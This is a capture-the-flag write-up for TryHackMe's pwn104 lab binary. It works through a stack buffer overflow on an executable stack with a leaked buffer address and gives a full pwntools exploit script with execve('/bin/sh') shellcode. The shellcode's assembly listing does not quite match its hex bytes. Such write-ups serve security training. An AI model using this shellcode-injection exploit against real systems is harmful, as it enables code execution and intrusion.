




# TryHackMe — pwn104

* **Room:** [TryHackMe — pwn101](https://tryhackme.com/room/pwn101)  
* **Category:** Binary Exploitation  
* **Difficulty:** Easy  
* **Date:** 2026-11-15  
* **Tools:** `file`, `checksec`, IDA Pro, `gdb` + `pwndbg`, `pwntools`, Python 3  
* **Binary:** 64-bit ELF (`pwn104-1644300377109.pwn104`) — not redistributed (TryHackMe content)  

---

## TL;DR

In this challenge, we exploit a classic **Stack Buffer Overflow** with **Executable Stack (NX disabled)** and a **free stack memory leak**. When `main()` executes, it hints at its *"super powers... especially executable powers"* and directly prints the memory address of its input buffer (`I'm waiting for you at 0x7fff...`). It then invokes `read(0, buf, 0xc8)` (200 bytes) into an 80-byte buffer allocated at `[rbp-0x50]`, introducing an uncontrolled buffer overflow of up to 120 bytes past the frame.

Because the binary was compiled without `GNU_STACK` headers, `checksec` and `pwndbg`'s `vmmap` confirm the stack segment possesses `rwxp` permissions (Read-Write-Execute). The primary lesson of this lab is that **when the stack is executable, we can leverage it to place custom shellcode directly onto the stack and execute it**. By injecting our 23-byte `/bin/sh` shellcode, padding up to the saved return address (88 bytes), and overwriting `saved RIP` with the leaked buffer address, we hijack control flow and achieve an instant interactive shell.

---

## Recon

We begin by assessing the binary's architecture and security mitigations using `file` and `checksec`:



Key observations:
* **File Type:** ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter `/lib64/ld-linux-x86-64.so.2`, not stripped.
* **Canary:** `No canary found` — Stack memory can be continuously overwritten past the local frame without triggering `__stack_chk_fail`.
* **NX:** `NX unknown - GNU_STACK missing` / `Stack: Executable` — **No eXecute (NX) is disabled**. The stack is marked executable (`RWX`), making it possible to execute arbitrary code injected into stack frames.
* **PIE:** `No PIE (0x400000)` — Executable base is static at `0x400000`.
* **RWX:** `Has RWX segments` — Explicit indicator that at least one writable segment has execution privileges.

When running the binary interactively:
```text
$ ./pwn104-1644300377109.pwn104
        pwn 104
I think I have some super powers 💪
especially executable powers 🦸

Can we go for a fight? 🥊
I'm waiting for you at 0x7fff038a7870
```
The binary generously discloses the exact runtime stack address where our buffer begins (`I'm waiting for you at 0x7fff...`), bypassing ASLR in a single step!

---

## Static Analysis & Decompilation

### 1. Disassembly of `main()` in GDB / IDA Pro

Disassembling `main()` (`0x4011cd` to `0x40124e`):



```assembly
0x00000000004011cd <+0>:   push   rbp
0x00000000004011ce <+1>:   mov    rbp, rsp
0x00000000004011d1 <+4>:   sub    rsp, 0x50            ; Allocate 80 bytes (0x50) on stack
0x00000000004011d5 <+8>:   mov    eax, 0x0
0x00000000004011da <+13>:  call   0x401156 <setup>
...
0x0000000000401211 <+68>:  lea    rax, [rbp-0x50]       ; rax = buffer pointer
0x0000000000401216 <+73>:  mov    rsi, rax             ; rsi = argument for printf
0x000000000040121a <+77>:  lea    rax, [rip+0xf6f]     ; "I'm waiting for you at %p\n"
0x0000000000401221 <+84>:  mov    rdi, rax
0x0000000000401224 <+87>:  mov    eax, 0x0
0x0000000000401229 <+92>:  call   0x401040 <printf@plt> ; Leak buffer address to stdout

0x000000000040122e <+97>:  lea    rax, [rbp-0x50]       ; Destination buffer
0x0000000000401232 <+101>: mov    edx, 0xc8            ; count = 0xc8 (200 bytes!)
0x0000000000401237 <+106>: mov    rsi, rax             ; buf = [rbp-0x50]
0x000000000040123a <+109>: mov    edi, 0x0             ; fd = 0 (stdin)
0x000000000040123f <+114>: mov    eax, 0x0
0x0000000000401244 <+119>: call   0x401050 <read@plt>   ; Vulnerable read!
0x0000000000401249 <+124>: nop
0x000000000040124a <+125>: leave
0x000000000040124b <+126>: ret
```

### 2. Identifying the Buffer Overflow & Offset Calculation

1. **Buffer Size:** The stack frame allocates `0x50` (80 bytes) via `sub rsp, 0x50`. The buffer begins at `[rbp-0x50]`.
2. **Read Bounds:** `read(0, [rbp-0x50], 0xc8)` allows up to 200 bytes of input.
3. **Offset to `saved RIP`:**
   * Distance from `buf` to `saved RBP`: `0x50` = 80 bytes.
   * Distance across `saved RBP`: `0x8` = 8 bytes.
   * Total offset to overwrite the return address: `80 + 8 = 88 bytes` (`0x58`).

---

## Dynamic Analysis & Verifying Executable Stack

### 1. Inspecting the Stack Permissions with `vmmap`

To confirm whether the stack page allows code execution, we inspect the memory mapping inside `pwndbg`:



```text
pwndbg> vmmap 0x7fffffffc060
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
 Start              End                Perm   Size    Offset File
 0x7ffffffdce00     0x7ffffffff000     rwxp  23000         0 [stack]
```

Notice the permissions column: **`rwxp`**!
* **`r`**: Readable
* **`w`**: Writable
* **`x`**: **Executable**
* **`p`**: Private

Because the stack page is marked `rwxp`, the CPU will execute machine instructions placed in this memory range without triggering a segmentation fault.

### 2. Stack Layout Architecture

```text
+-------------------------------------------------------------------------+
|                  Normal Stack Layout vs Payload Smash                   |
+-------------------------------------------------------------------------+
| [rbp-0x50]: [ 23-byte execve shellcode ]                                |
|             [ \x90 NOP Sled padding (65 bytes) ]                        |
|             ----------------------------------- (Total 88 bytes)        |
| [rbp+0x00]: [ Overwritten Saved RBP (8 bytes) ]                         |
| [rbp+0x08]: [ Saved RIP = Leaked Buffer Address (0x7fff...) ] --------+ |
+-----------------------------------------------------------------------|-+
                                                                        |
                                                                        v
                                         [ CPU executes shellcode on stack! ]
```

### 3. Dynamic Execution of Shellcode in GDB

We test our exploit in `pwndbg` by sending the payload and monitoring execution when `ret` returns to the leaked buffer address:



When `main()` hits `ret`, execution immediately transfers to the leaked buffer address on the stack. The CPU executes our 23-byte `/bin/sh` shellcode and spawns an interactive shell:
```text
process 310355 is executing new program: /usr/bin/bash
[*] Switching to interactive mode
$ whoami
thang
```

---

## Exploit Development

### 1. Shellcode Selection
We use an ultra-compact 23-byte x86_64 `execve("/bin/sh", NULL, NULL)` shellcode:
```assembly
xor esi, esi                ; rsi = NULL (argv)
push rsi                    ; push NULL terminator
mov rbx, 0x68732f2f6e69622f ; "//bin/sh" in little endian
push rbx
push rsp
pop rdi                     ; rdi = "/bin/sh"
push 59
pop rax                     ; rax = 59 (SYS_execve)
cdq                         ; rdx = 0 (envp)
syscall                     ; invoke kernel syscall
```
Hex representation: `\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05` (23 bytes).

### 2. Payload Construction
* **Shellcode:** 23 bytes.
* **NOP Sled Padding:** `88 - 23 = 65` bytes of `\x90`.
* **Return Address:** 8 bytes containing `p64(bufferLocation)`.
* **Total Length:** `88 + 8 = 96` bytes (well within the 200-byte `read` limit).

### 3. The Complete Exploit Script (`exploit.py`)

```python
#!/usr/bin/env python3
"""TryHackMe - pwn104 Exploit Script
Vulnerability: Stack Buffer Overflow with Leaked Stack Pointer and NX-off (Executable Stack)
Technique: Inject custom 23-byte execve("/bin/sh") shellcode, pad to 88 bytes, ret2stack.
"""

from pwn import *
import sys

context.binary = elf = ELF('./pwn104-1644300377109.pwn104', checksec=False)

def start():
    if args.REMOTE:
        # Replace with TryHackMe target machine IP and port (e.g. 9004)
        return remote(sys.argv[1], int(sys.argv[2]))
    return process('./pwn104-1644300377109.pwn104')

p = start()

# 1. Parse leaked buffer address from banner
p.recvuntil(b'at ')
leaked_addr_str = p.recvline().strip()
buffer_addr = int(leaked_addr_str, 16)
log.success(f"Leaked stack buffer address: {hex(buffer_addr)}")

# 2. 23-byte x86-64 execve("/bin/sh") shellcode
shellcode = b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'

# 3. Construct payload: shellcode + NOP sled + return address
OFFSET = 88
payload = shellcode
payload += b'\x90' * (OFFSET - len(shellcode))
payload += p64(buffer_addr)

# 4. Trigger buffer overflow
log.info(f"Sending payload (length: {len(payload)} bytes)...")
p.sendline(payload)

# 5. Interactive shell
p.interactive()
```

---

## Flag

```text
THM{redacted}
```

---

## Key Takeaways & Lessons

1. **Exploiting Executable Stack (NX Disabled):** Khi stack có quyền thực thi (`rwxp`), ta không cần ROP chain hay ret2libc phức tạp: ta hoàn toàn có thể tận dụng để viết shellcode trực tiếp lên stack rồi nhảy về đó thực thi (`ret2stack`).
2. **Bypass ASLR nhờ Information Disclosure:** Dù ASLR đang bật trên toàn hệ thống, việc chương trình để lộ địa chỉ stack (`I'm waiting for you at %p`) đã hóa giải ASLR hoàn toàn. Độ lệch từ địa chỉ leak đến buffer bằng 0, cho phép tính toán chính xác đích nhảy cho `saved RIP`.
3. **NOP Sled & Shellcode Alignment:** Sử dụng NOP sled (`\x90`) giúp tăng độ ổn định của payload. Đặt shellcode ngay đầu buffer và lấp đầy khoảng cách còn lại tới `saved RIP` bằng các byte `\x90` đảm bảo không làm hỏng payload và CPU thực thi shellcode ngay từ instruction đầu tiên.
